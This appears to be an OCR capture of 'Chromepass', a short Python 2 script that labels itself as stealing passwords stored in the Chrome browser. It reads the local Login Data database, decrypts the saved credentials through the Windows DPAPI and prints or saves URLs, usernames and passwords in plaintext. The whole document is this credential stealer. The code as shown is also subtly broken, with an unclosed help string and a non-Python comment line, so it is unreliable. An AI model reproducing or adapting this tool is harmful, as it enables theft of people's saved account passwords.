 # Chromepass
//Steal password stored in chrome browser


import sqlite3, win32crypt, os, sys

def decrypt(path, save_path):
	if not os.path.isfile(path):
		print 'The file doesn\'t exist!'
		return
	
	connChrome = sqlite3.connect(path)
	cursor = connChrome.cursor()
	try:
		cursor.execute('SELECT action_url, username_value, password_value FROM logins')
	except:
		print 'Impossible to read ' + path
		return

	print '\t\t\t*** Passwords ***'
	
	for query in cursor.fetchall():
		passwd = win32crypt.CryptUnprotectData(query[2], None, None, None, 0)[1]
		if passwd:
			print 'URL: ' + query[0]
			print 'User: ' + query[1]
			print 'Password: ' + passwd
			print '--------------------'
	
			if save_path != '':
				passwordsFile = open(save_path, 'a')
				passwordsFile.writelines('URL: ' + query[0] + '\nUser: ' + query[1] + '\nPassword: ' + passwd + '\n--------------------\n')
				passwordsFile.close()

def show_help():
    print '''  Usage:
    python ChromePass.py                                   # Run with the default location of the Login Data file.
    python ChromePass.py "path_to_file"                    # Run with a path to the Login Data file.
    python ChromePass.py "path_to_file" -S "path_to_save"  # Run with a path to the Login Data file and save.
    python ChromePass.py -S "path_to_save"                 # Save the content of the default Login Data file.


if __name__ == '__main__':
    arg = sys.argv
    args = len(arg)
    login_data = os.getenv('LOCALAPPDATA') + '\Google\Chrome\User Data\Default\Login Data'

    if args == 1:
        decrypt(login_data, '')
    elif args == 2:
        decrypt(arg[1], '')
    elif args == 3:
        if arg[1].upper() == '-S':
            decrypt(login_data, arg[2])
        else:
            show_help()
    elif args == 4:
        if arg[2].upper() == '-S':
            decrypt(arg[1], arg[3])
        else:
            show_help()
    else:
        show_help()
